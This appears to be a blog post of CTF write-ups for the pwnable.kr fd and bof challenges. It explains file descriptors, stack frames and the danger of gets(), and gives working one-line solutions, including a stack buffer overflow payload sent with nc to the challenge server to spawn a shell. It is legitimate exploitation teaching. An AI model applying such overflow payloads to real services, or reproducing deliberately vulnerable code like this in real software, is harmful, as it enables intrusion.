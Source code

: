 +++
title = "pwnable.kr - Toddler's Bottle"
date = 2020-04-27T12:59:37.396Z
updated = 2020-04-27T13:02:48.347Z
aliases = ["/posts/5ea6d739cea15a083827d57f-pwnablekr-toddlers-bottle"]
[taxonomies]
tags = ['pwnable.kr', 'binary-exploitation', 'buffer-overflow', 'pwntools']
categories = ["ctf-writeups"]
+++

# fd - 1pt
## Challenge
> Mommy! what is a file descriptor in Linux?
> 
> ssh fd@pwnable.kr -p2222 (pw:guest)

## Source Code

After ssh-ing into the server with the given details, we can view the source code of the challenge by running `cat fd.c`:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
char buf[32];
int main(int argc, char* argv[], char* envp[]){
        if(argc<2){
                printf("pass argv[1] a number\n");
                return 0;
        }
        int fd = atoi( argv[1] ) - 0x1234;
        int len = 0;
        len = read(fd, buf, 32);
        if(!strcmp("LETMEWIN\n", buf)){
                printf("good job :)\n");
                system("/bin/cat flag");
                exit(0);
        }
        printf("learn about Linux file IO\n");
        return 0;
}
```

<!-- more -->

## File Descriptors

On POSIX systems, there are three standard file descriptors:

* Standard Input (stdin) which has a fd of `0`
* Standard Output (stdout) which has a fd of `1`
* Standard Error (stderr) which has a fd of `2`

## Solution

The program subtracts 0x1234 from a file descriptor we provide and then reads from it. If the read string is `LETMEWIN\n`, it gives us the flag. If we get the program to read from `stdin`, we can just type `LETMEWIN` into the terminal, and we will get the flag:

```bash
echo LETMEWIN | ./fd $(python -c "print 0x1234 + 0")
```

# bof - 5pt
## Challenge

> Nana told me that buffer overflow is one of the most common software vulnerability. Is that true?
> 
> Download : http://pwnable.kr/bin/bof
> 
> Download : http://pwnable.kr/bin/bof.c
> 
> Running at : nc pwnable.kr 9000

## Source Code

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

## Background


### Stack Frames
The stack stores local variables and function parameters and is used to pass parameters with certain calling conventions. This diagram (taken from [Wikipedia](https://en.wikipedia.org/wiki/Call_stack)) shows an example stack layout:

{{ svg(path="5ea6d67bcea15a083827d578.svg") }}


### gets

The function `gets` is insecure and allows for buffer overflows when used because it only stops at new lines or EOF. The manpage for gets (`man gets`) says this:

> Never use gets().  Because it is impossible to tell without knowing the data in advance how many characters gets() will read, and because gets() will continue to store characters past the  end  of the buffer, it is extremely dangerous to use.  It has been used to break computer security.  Use fgets() instead.

## Solution

We need to overwrite the `key` parameter passed to `func`. To get there we will need to overwrite 36 bytes (`char overflowme[32]`, and the return address (4 bytes in 32-bit programs)). However, additional values are pushed onto the stack to save the previous location of the stack. Therefore, we have to place `0xcafebabe` at 52 bytes into the stack:

```bash
(python -c "print('A'*52 + '\xbe\xba\xfe\xca')" && cat - ) | nc pwnable.kr 9000
```

Note that `0xcafebabe` is encoded into a little-endian format, and `cat -` is used to allow us to communicate with the opened shell.
